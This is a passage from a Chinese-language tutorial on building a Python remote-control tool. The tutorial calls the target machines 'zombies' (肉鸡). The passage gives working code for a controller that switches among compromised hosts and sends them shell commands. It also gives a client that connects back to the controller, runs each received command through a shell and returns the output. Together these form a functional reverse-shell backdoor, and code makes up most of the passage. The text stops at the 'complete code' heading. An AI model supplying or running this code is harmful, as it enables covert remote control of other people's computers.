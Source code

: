 ```
        else:
            break

    curClient = clientList[int(num)]    #将选择的socket对象存入curClient中
```

通过记录已经连接肉鸡的socket，并将选择的socket赋值给curClient就实现了多客户端的选择。 现在我们就可以实现命令的发送和接收了：

```
def shell_ctrl(socket,addr):                #负责发送Shell命令和接收结果
    while True:
        com = input(str(addr[0]) + ':~#')   #等待输入命令
        if com == '!ch':                    #切换肉机命令
            select_client()
            return
        if com == '!q':                     #退出控制端命令
            exit(0)
        socket.send(com.encode('utf-8'))    #发送命令的字节码
        data = socket.recv(1024)            #接收反回的结果
        print(data.decode('utf-8'))         #输出结果
```

这里有一点需要注意一下，这里我们对接收和发送统一都用`utf-8`进行编码和解码，同样在客户端中也采用同样的编码才会保证接收和发送的结果正确。至于发送命令这部分主要就是等待用户输入命令然后判断是不是切换肉鸡或者是退出命令，如果不是就把命令发送给客户端。到此我们的控制端基本的组成部分就实现完成了！

#### 3.2 被控端（Client）

被控端需要实现连接到控制端、执行控制端发送过来的命令并将执行命令后的结果发送给控制端。与控制端相比被控端要简单的多，下面我们就用一个函数来实现上面我们提到的功能，代码如下：

```
def connectHost(ht,pt): 
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    #创建socket对象
    sock.connect((ht,int(pt)))  #主机的指定端口
    while True:
        data = sock.recv(1024)  #接收命令
        data = data.decode('utf-8') #对命令解码
        #执行命令
        comRst = subprocess.Popen(data,shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        #获取命令执行结果
        m_stdout, m_stderr = comRst.communicate()
        #将执行命令结果编码后发送给控制端
        sock.send(m_stdout.decode(sys.getfilesystemencoding()).encode('utf-8'))
        time.sleep(1)
    sock.close()
```

通过这一个函数就实现了被控端的所有功能，是不是很简单？这个函数的核心其实就是subprocess.Popen()这个函数，这里我简单介绍一下。subprocess.Popen()可以实现在一个新的进程中启动一个子程序，第一个参数就是子程序的名字，shell=True则是说明程序在Shell中执行。至于stdout、stderr、stdin的值都是subprocess.PIPE，则表示用管道的形式与子进程交互。还有一个需要注意的地方就是在给控制端发送命令执行结果的时候，这里先将结果用本地系统编码的方式进行解码，然后又用`utf-8`进行编码，以避免被控端编码不是`utf-8`时，控制端接收到的结果显示乱码。

至此我们就将控制端和被控端都实现完了，代码很容易理解，代码量也不多。下面我们来整合全部代码！

### 四、完整代码
